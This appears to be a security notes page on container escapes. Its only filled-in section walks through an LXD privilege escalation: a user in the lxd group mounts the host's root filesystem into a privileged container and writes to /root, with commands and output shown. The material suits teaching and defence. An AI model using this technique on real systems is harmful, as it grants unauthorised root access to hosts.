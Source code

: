 # Escaping Containers

This section will focus on the two most popular containerisation technologies, Docker and LXD.  

## User Namespaces

[https://docs.docker.com/engine/security/userns-remap/\#enable-userns-remap-on-the-daemon](https://docs.docker.com/engine/security/userns-remap/#enable-userns-remap-on-the-daemon)  


## Mount Points

## Docker Specific

## LXD Specific

### LXD Hooks

### Privileged Containers

All bets are off with privileged containers, to test out creating one we want to do the following

```bash
sudo su
lxc launch ubuntu:16.04 --security.privileged=true
lxc exec <name> bash
useradd tecmint
passwd tecmint
mkdir /home/tecmint
chown tecmint:tecmint /home/tecmint
usermod -a -G lxd tecmint
su tecmint
```

If you have either root privileges within a privileged container, or are a member of the lxd group, you can easily get root access on the host.  To do this, you'll have to mount the root directory under a container.

```bash
ubuntu@ubuntu:~$ lxc init ubuntu:16.04 test -c security.privileged=true 
Creating test 
ubuntu@ubuntu:~$ lxc config device add test whatever disk source=/ path=/mnt/root recursive=true 
Device whatever added to test 
ubuntu@ubuntu:~$ lxc start test 
ubuntu@ubuntu:~$ lxc exec test bash
```

Here we see us creating a file within the /root/ directory under the mountpoint as shown.

```bash
root@test:~# cd /mnt/root 
root@test:/mnt/root# ls 
bin   cdrom  etc   initrd.img  lib64       media  opt   root  sbin  srv  tmp  var 
boot  dev    home  lib         lost+found  mnt    proc  run   snap  sys  usr  vmlinuz 
root@test:/mnt/root# cd root 
root@test:/mnt/root/root# ls 
root@test:/mnt/root/root# touch ICanDoWhatever 
root@test:/mnt/root/root# exit 
exit
```

And so we see that the file has been created within our root directory.

```bash
ubuntu@ubuntu:~$ sudo su
root@ubuntu:/home/ubuntu# ls /root 
ICanDoWhatever 
root@ubuntu:/home/ubuntu#
```

This can be used quite trivially for container escape, as mounting the root directory in a nested container will mount the hosts container as all lxd commands run on the host.

## References

[https://www.zopyx.com/andreas-jung/contents/on-docker-security-docker-group-considered-harmful](https://www.zopyx.com/andreas-jung/contents/on-docker-security-docker-group-considered-harmful)  
[https://fosterelli.co/privilege-escalation-via-docker.html](https://fosterelli.co/privilege-escalation-via-docker.html)  
[https://linuxcontainers.org/lxc/getting-started/](https://linuxcontainers.org/lxc/getting-started/)  
[https://github.com/lxc/lxd/issues/2003](https://github.com/lxc/lxd/issues/2003)  
[https://reboare.github.io/lxd/lxd-escape.html](https://reboare.github.io/lxd/lxd-escape.html)  
[https://insights.ubuntu.com/2017/06/15/custom-user-mappings-in-lxd-containers/](https://insights.ubuntu.com/2017/06/15/custom-user-mappings-in-lxd-containers/)

